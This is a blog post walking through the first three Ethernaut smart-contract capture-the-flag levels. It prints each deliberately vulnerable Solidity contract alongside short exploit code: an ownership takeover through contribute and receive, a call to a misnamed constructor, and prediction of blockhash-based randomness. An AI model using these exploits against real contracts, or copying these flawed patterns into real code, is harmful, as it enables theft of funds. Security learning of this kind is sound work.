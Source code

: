 ##########################
Let's play some Ethernauts
##########################
:date: 2023-07-11
:summary: let's get back into this 'smart contract development' thing
:tags: programming
:author: capu
:featured_image:

Context
=======
`Ethernaut <https://ethernaut.openzeppelin.com/>`_ is a capture the flag smart contract security
game inspired by `overthewire wargames <https://overthewire.org/wargames/>`_ (which are a lot of fun
as well).

It's been a long time since I got any real amount of work done on smart contracts, and I want to get
back into it. Perhaps even focus more on security & auditing this time around.

Plus, I'm in my *year of resourcefulness* so I want to have my skills & scripts ready in case I need
them.

Plumbing
========
After going down a very uninteresting rabbit hole of trying to replicate the exact same environment
locally that's available on the sepolia network, so I can have solutions that work against the
canonical Ethernaut contracts and also run offline, I decided to just fork off from `some anon's work <https://github.com/puffdood/ethernaut_foundry>`_ and `off I went <https://github.com/juanpcapurro/ethernaut-foundry>`_

The repo just runs the contracts in some Foundry tests. It's not clean by any means, but for once I
want to get to work on the interest stuff instead of spending an entire day sweeping the floor. So
let's get to it:

1: Fallback
===========

code
----

.. code::

    pragma solidity ^0.8.13;
    contract Fallback {
        mapping(address => uint256) public contributions;
        address payable public owner;

        constructor() {
            owner = payable(msg.sender);
            contributions[msg.sender] = 1000 * (1 ether);
        }

        modifier onlyOwner() {
            require(msg.sender == owner, "caller is not the owner");
            _;
        }

        function contribute() public payable {
            require(msg.value < 0.001 ether);
            contributions[msg.sender] += msg.value;
            if (contributions[msg.sender] > contributions[owner]) {
                owner = payable(msg.sender);
            }
        }

        function getContribution() public view returns (uint256) {
            return contributions[msg.sender];
        }

        function withdraw() public onlyOwner {
            owner.transfer(address(this).balance);
        }

        receive() external payable {
            require(msg.value > 0 && contributions[msg.sender] > 0);
            owner = payable(msg.sender);
        }
    }

solution
--------

At first it looks simple enough, but there's a small caveat: the fallback function writes to
storage, so the 2300 gas ``transfer`` forwards are not enough, and you have to use an explicit
``call``

.. code::

    target.contribute{value: 100 wei}();
    payable(target).call{value: 100 wei, gas: 30000}(bytes(""));
    target.withdraw();

Fallout
=======

Code
----
.. code::

    contract Fallout {
        mapping(address => uint256) public allocations;
        address payable public owner;

        /* constructor */
        function Fal1out() public payable {
            owner = payable(msg.sender);
            allocations[owner] = msg.value;
        }

        modifier onlyOwner() {
            require(msg.sender == owner, "caller is not the owner");
            _;
        }

        function allocate() public payable {
            allocations[msg.sender] += msg.value;
        }

        function sendAllocation(address payable allocator) public {
            require(allocations[allocator] > 0);
            allocator.transfer(allocations[allocator]);
        }

        function collectAllocations() public onlyOwner {
            payable(msg.sender).transfer(address(this).balance);
        }

        function allocatorBalance(address allocator) public view returns (uint256) {
            return allocations[allocator];
        }
    }

Solution
--------
This one was harder before solidity 0.5. Back then, the constructor was defined as a function with
the same name as the contract. It was entirely possible to rename the contract but forget to rename
the constructor, and then you had a function open to the world where some important initialization
probably happened.

.. code::

    target.Fal1out();
    target.collectAllocations();


CoinFlip
========

Code
----
.. code::

    contract CoinFlip {
        uint256 public consecutiveWins;
        uint256 public lastHash;
        uint256 public FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor() {
            consecutiveWins = 0;
        }

        function flip(bool _guess) public returns (bool) {
            uint256 blockValue = uint256(blockhash(block.number - 1));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;

            if (side == _guess) {
                consecutiveWins++;
                return true;
            } else {
                consecutiveWins = 0;
                return false;
            }
        }
    }

Solution
--------
This one is probably harder from the web interface, since the 'hack' is to pre-compute the same
logic the contract executes in order to predict the result, and it's easiest to do so from a smart
contract.

This being a foundry test and all, I had to use the cheatcodes to make the block number advance:

.. code::

    function predictFlip() private view returns (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        return coinFlip == 1;
    }

    function solution(CoinFlip target) internal virtual {
        for (uint i = 0 ; i < 10 ; i++){
            target.flip(predictFlip());
            vm.roll(block.number+1);
        }
    }

This was fun. I should have a few more done by next week.
